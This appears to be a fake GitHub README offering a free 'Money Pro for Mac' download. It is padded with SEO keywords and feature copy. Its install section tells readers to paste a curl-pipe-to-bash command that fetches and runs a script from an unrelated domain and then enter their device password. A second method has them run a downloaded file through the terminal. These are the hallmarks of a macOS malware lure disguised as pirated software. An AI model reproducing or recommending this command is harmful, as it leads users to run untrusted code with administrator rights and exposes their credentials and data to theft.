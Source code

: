 # Money Pro — Download For Mac OS 🤑

Manage your finances effortlessly with Money Pro for Mac! Follow the simple instructions below to install this powerful budgeting app and take control of your money.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/moneypro)

If the download button doesn't work, follow the terminal installation instructions below.

## 📦 How to Install Money Pro For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get

- 🧾 **Budget Tracking**: Create and monitor budgets for multiple categories with real-time updates.
- 📊 **Reports & Insights**: Generate detailed financial reports to analyze spending habits.
- 💸 **Bill Management**: Schedule and track recurring bills to avoid late payments.
- 💳 **Multi-Currency Support**: Manage finances in various currencies with automatic conversions.
- 🔄 **Sync Across Devices**: Seamlessly sync data between your Mac, iPhone, and iPad.
- 🔒 **Data Security**: Protect your financial data with robust encryption and password options.

---

## About Money Pro

Money Pro for Mac is a comprehensive financial management tool designed to simplify budgeting, bill tracking, and expense monitoring. Whether you're managing personal finances or small business accounts, Money Pro offers an intuitive interface and powerful features to keep your financial life organized. With its seamless integration across Apple devices, you can access your data anytime, anywhere. The app supports keywords like *money management*, *budget planner*, and *finance tracker* to ensure you find the right tools for your needs.

The app’s budgeting capabilities allow users to set spending limits across various categories, such as groceries, utilities, or entertainment. By using Money Pro, you can visualize your financial health through customizable reports that highlight trends and opportunities for savings. Its *free download* availability makes it accessible for Mac users looking to streamline their finances without upfront costs.

For those juggling multiple currencies, Money Pro’s *multi-currency support* is a game-changer. It automatically converts transactions using real-time exchange rates, making it ideal for travelers or international business owners. The app also prioritizes *data security*, employing encryption to safeguard sensitive information, ensuring peace of mind for users.

Money Pro stands out with its ability to sync data across devices via iCloud, allowing you to update your budget on your Mac and view it instantly on your iPhone or iPad. This feature, combined with its *personal finance* tools, makes it a top choice for users searching for a reliable *budgeting app* that integrates seamlessly into their Apple ecosystem.

### Why Choose Money Pro?

Money Pro’s key advantage is its balance of simplicity and depth. Unlike other apps, it combines an easy-to-use interface with advanced features like *expense tracking* and *financial planning*. Its *Mac OS compatibility* ensures smooth performance, while the *free download* option lowers the barrier to entry. Whether you're a beginner or a seasoned budgeter, Money Pro’s versatility and robust feature set make it a standout choice for *money management*.

---

## 🖼 Preview

![Dashboard Overview](https://money.pro/img/moneypro_mac_budget.jpg)
*View your budget, expenses, and reports in a sleek, user-friendly dashboard.*

![Budget Planner](https://money.pro/img/moneypro_mac_calendar.jpg)
*Easily set and track budgets for various spending categories.*

![Bill Tracking](https://money.pro/img/moneypro_mac_reports_bar.jpg)
*Schedule and manage recurring bills to stay on top of payments.*

---

## 🔍 Tags

money pro free download, money pro, money pro for mac, money pro software, money for macbook, money pro free, money pro download, money pro fre download, moneyguidepro, pro money, money pro mac, money pro for mac, my money pro
